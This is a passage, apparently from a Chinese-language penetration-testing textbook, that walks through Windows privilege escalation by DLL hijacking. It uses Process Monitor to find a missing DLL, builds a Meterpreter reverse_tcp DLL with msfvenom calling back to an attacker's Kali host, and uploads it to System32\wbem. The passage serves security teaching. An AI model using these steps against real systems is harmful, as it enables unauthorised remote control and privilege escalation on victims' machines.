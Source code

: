     图 8.29 – 进程监视器路径过滤器

1.  在添加了两个过滤器之后，您的过滤器配置应类似于以下截图中的配置：![图 8.30 – 进程监视器过滤器    ](img/B17389_08_030.jpg)

    图 8.30 – 进程监视器过滤器

    设置好过滤器后，可以通过点击 **Apply** 按钮应用过滤器，如前面的截图所示。

    这些过滤器将仅显示缺失 DLL 的服务及其相应的 DLL 名称。在这种情况下，我们可以识别出易受攻击的服务以及缺失的 DLL 名称及其相应的路径，如以下截图所示：

    ![图 8.31 – 进程监视器缺失 DLL    ](img/B17389_08_031.jpg)

    图 8.31 – 进程监视器缺失 DLL

    现在我们可以生成我们的自定义 DLL，当执行时，它将为我们提供一个 Meterpreter 会话。

1.  我们可以使用 **msfvenom** 生成自定义 DLL，并通过在 Kali 中运行以下命令来使用 Meterpreter 有效载荷：

    **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=PORT -f dll > hijackme.dll**

    我们将保存自定义 DLL 文件，命名为缺失 DLL 的名称，用于 **dllhijackservice.exe** 服务。对于我们的情况，我们将劫持 **hijackme.dll** DLL。

1.  在生成自定义 DLL 后，我们可以将其传输到目标系统的相应服务路径中。对于我们的情况，路径将如下所示：

    **C:\Windows\System32\wbem**

    我们可以通过运行以下命令，使用 Meterpreter 上传自定义 DLL：

    **upload /PATH-TO-DLL/hijackme.dll**

    如下图所示，**hijackme.dll** 文件应该被上传到正确的路径：

    ![图 8.32 – 上传自定义 DLL    ](img/B17389_08_032.jpg)
